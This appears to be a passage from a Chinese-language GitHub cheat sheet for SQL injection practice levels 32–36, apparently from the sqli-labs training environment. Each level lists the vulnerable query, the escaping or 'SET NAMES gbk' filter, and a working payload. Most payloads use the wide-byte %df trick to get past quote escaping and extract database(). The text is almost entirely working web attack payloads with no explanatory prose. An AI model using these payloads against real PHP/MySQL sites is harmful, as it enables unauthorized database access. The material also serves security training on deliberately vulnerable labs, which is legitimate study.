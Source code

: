 ### 32、宽字节注入 [ ' ]

```mysql
# SQL语句
SELECT * FROM users WHERE id='$id' LIMIT 0,1;
# 过滤语句
$string = preg_replace('/'. preg_quote('\\') .'/', "\\\\\\", $string);
$string = preg_replace('/\'/i', '\\\'', $string);
$string = preg_replace('/\"/', "\\\"", $string);
# Payload
?id=0%df' union select 1,2,database()--+
```

### 33、宽字节注入 [ ' ]

```mysql
# SQL语句
SELECT * FROM users WHERE id='$id' LIMIT 0,1;
# 过滤语句
mysql_query("SET NAMES gbk");
# Payload
?id=0%df' union select 1,2,database()--+
```

### 34、POST + 宽字节注入 [ ' ]

```mysql
# SQL语句
SELECT username, password FROM users WHERE username='$uname' and password='$passwd' LIMIT 0,1;
# 过滤语句
mysql_query("SET NAMES gbk");
# Payload
uname=admin%df' union select 1,database()#
```

### 35、GET + 宽字节注入 [ ]

```MYSQL
# SQL语句
SELECT * FROM users WHERE id=$id LIMIT 0,1;
# 过滤语句
mysql_query("SET NAMES gbk");
# Payload
?id=0 union select 1,database(),3#
```

### 36、GET + 宽字节注入 [ ' ]

```mysql
# SQL语句
SELECT * FROM users WHERE id='$id' LIMIT 0,1;
# 过滤语句
mysql_query("SET NAMES gbk");
# Payload
?id=0%df%27union%20select%201,2,database()--+
```

